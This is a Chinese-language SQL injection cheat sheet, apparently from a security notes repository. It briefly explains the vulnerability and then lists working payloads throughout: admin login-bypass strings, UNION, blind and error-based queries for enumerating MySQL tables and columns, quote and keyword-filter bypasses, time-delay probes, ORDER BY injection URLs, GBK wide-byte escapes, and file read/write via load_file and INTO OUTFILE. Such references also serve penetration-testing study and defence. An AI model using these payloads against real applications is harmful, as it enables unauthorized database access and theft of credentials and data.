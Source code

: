 SQL 注入
========

基本概念
--------

-  SQL 注入是一种将 SQL
   代码插入或添加到应用（用户）的输入参数中，之后再讲这些参数传递给后台的
   SQL 服务器加以解析并执行的攻击。
-  攻击者能够修改 SQL
   语句，该进程将与执行命令的组件（如数据库服务器、应用服务器或 WEB
   服务器）拥有相同的权限。
-  如果 WEB 应用开发人员无法确保在将从 WEB
   表单、cookie、输入参数等收到的值传递给 SQL
   查询（该查询在数据库服务器上执行）之前已经对其进行过验证，通常就会出现
   SQL 注入漏洞。

常用工具
--------

-  Burp Suite：\ `Burp Suite
   使用介绍 <http://static.hx99.net/static/drops/tools-1548.html>`__
-  Tamper Data (Firefox addon)
-  HackBar (Firefox addon)
-  sqlmap：\ `sqlmap
   用户手册 <http://static.hx99.net/static/drops/tips-143.html>`__

注入常见参数
------------

-  ``user()``\ ：当前数据库用户；
-  ``database()``\ ：当前数据库名；
-  ``version()``\ ：当前使用的数据库版本；
-  ``@@datadir``\ ：数据库存储数据路径；
-  ``concat()``\ ：联合数据，用于联合两条数据结果。如
   ``concat(username,0x3a,password)``\ ；
-  ``group_concat()``\ ：和 ``concat()`` 类似，如
   ``group_concat(DISTINCT+user,0x3a,password)``\ ，用于把多条数据一次注入出来；
-  ``concat_ws()``\ ：用法类似；
-  ``hex()`` 和 ``unhex()``\ ：用于 hex 编码解码；
-  ``load_file()``\ ：以文本方式读取文件，在 Windows 中，路径设置为
   ``\\``\ ；
-  ``select xxoo into outfile '路径'``\ ：权限较高时可直接写文件。

语法参考与小技巧
----------------

行间注释
~~~~~~~~

-  ``--``

``sql   DROP sampletable;--``

-  ``#``

``sql   DROP sampletable;#``

行内注释
~~~~~~~~

-  ``/*注释内容*/``

``sql   DROP/*comment*/sampletable`   DR/**/OP/*绕过过滤*/sampletable`   SELECT/*替换空格*/password/**/FROM/**/Members``

-  ``/*! MYSQL专属 */`` 

``sql   SELECT /*!32302 1/0, */ 1 FROM tablename``

字符串编码
~~~~~~~~~~

-  ``ASCII()``\ ：返回字符的 ASCII 码值；
-  ``CHAR()``\ ：把整数转换为对应的字符。

后台万能密码
------------

-  ``admin' --``
-  ``admin' #``
-  ``admin'/*``
-  ``' or 1=1--``
-  ``' or 1=1#``
-  ``' or 1=1/*``
-  ``') or '1'='1--``
-  ``') or ('1'='1--``
-  以不同的用户登陆 \ ``' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--``

注入语句备忘
------------

数据库名
~~~~~~~~

.. code:: sql

    SELECT database();
    SELECT schema_name FROM information_schema.schemata;

表名
~~~~

-  union 查询

``sql   --MySQL 4版本时用version=9，MySQL 5版本时用version=10   UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */   UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */   SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';``

-  盲注

``sql   AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'``

-  报错

``sql   AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));   -- 在5.1.5版本中成功。``

列名
~~~~

-  union 查询

``sql   UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'``

-  盲注

``sql   AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'``

-  报错

``sql   -- 在5.1.5版本中成功。 AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- MySQL 5.1版本修复了   AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));``

-  利用 ``PROCEDURE ANALYSE()``

``sql   -- 这个需要 web 展示页面有你所注入查询的一个字段。   -- 获得第一个段名    SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()    -- 获得第二个段名    1 LIMIT 1,1 PROCEDURE ANALYSE()    -- 获得第三个段名   1 LIMIT 2,1 PROCEDURE ANALYSE()``

根据列名查询所在的表
~~~~~~~~~~~~~~~~~~~~

.. code:: sql

    -- 查询字段名为 username 的表
    SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
    -- 查询字段名中包含 username 的表
    SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';

绕过引号限制
~~~~~~~~~~~~

.. code:: sql

    -- hex 编码
    SELECT * FROM Users WHERE username = 0x61646D696E
    -- char() 函数
    SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)

绕过字符串黑名单
~~~~~~~~~~~~~~~~

.. code:: sql

    SELECT 'a' 'd' 'mi' 'n';
    SELECT CONCAT('a', 'd', 'm', 'i', 'n');
    SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
    SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');

使用 ``CONCAT()`` 时，任何个参数为 null，将返回
null，推荐使用\ ``CONCAT_WS()``\ 。\ ``CONCAT_WS()``\ 函数第一个参数表示用哪个字符间隔所查询的结果。

条件语句
~~~~~~~~

``CASE``, ``IF()``, ``IFNULL()``, ``NULLIF()``.

.. code:: sql

    SELECT IF(1=1, true, false);
    SELECT CASE WHEN 1=1 THEN true ELSE false END;

延时函数
~~~~~~~~

``SLEEP()``, ``BENCHMARK()``.

.. code:: sql

    ' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '

order by 后的注入
~~~~~~~~~~~~~~~~~

``order by``
由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有
``order`` 或者 ``order by``
的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：\ ``http://www.test.com/list.php?order=vote``

根据 ``vote`` 字段排序。找到投票数最大的票数 ``num`` 然后构造以下链接：

::

    http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 ``rand`` 函数：

::

    http://www.test.com/list.php?order=rand(true)
    http://www.test.com/list.php?order=rand(false)

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

::

    http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))

宽字节注入
~~~~~~~~~~

国内最常使用的 GBK 编码，这种方式主要是绕过 ``addslashes``
等对特殊字符进行转移的绕过。反斜杠 ``\`` 的十六进制为
``%5c``\ ，在你「入」\ ``%bf%27``\ 时，函数遇到单引号自动转移加入
``\``\ ，此时变为 ``%bf%5c%27``\ ，\ ``%bf%5c``\ 在 GBK
中变为一个宽字符「縗」。\ ``%bf``\ 那个位置可以是 ``%81-%fe``
中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。

参考资料
--------

-  `SQL
   注入速查表 <http://static.hx99.net/static/drops/tips-7840.html>`__
-  `MySQL
   注入技巧 <http://static.hx99.net/static/drops/tips-7299.html>`__
-  `MySQL
   注入科普 <http://static.hx99.net/static/drops/tips-123.html>`__
-  `MySQL 注入总结 <http://www.91ri.org/4073.html>`__
-  `《SQL
   注入攻击与防御》 <http://product.dangdang.com/23364650.html>`__
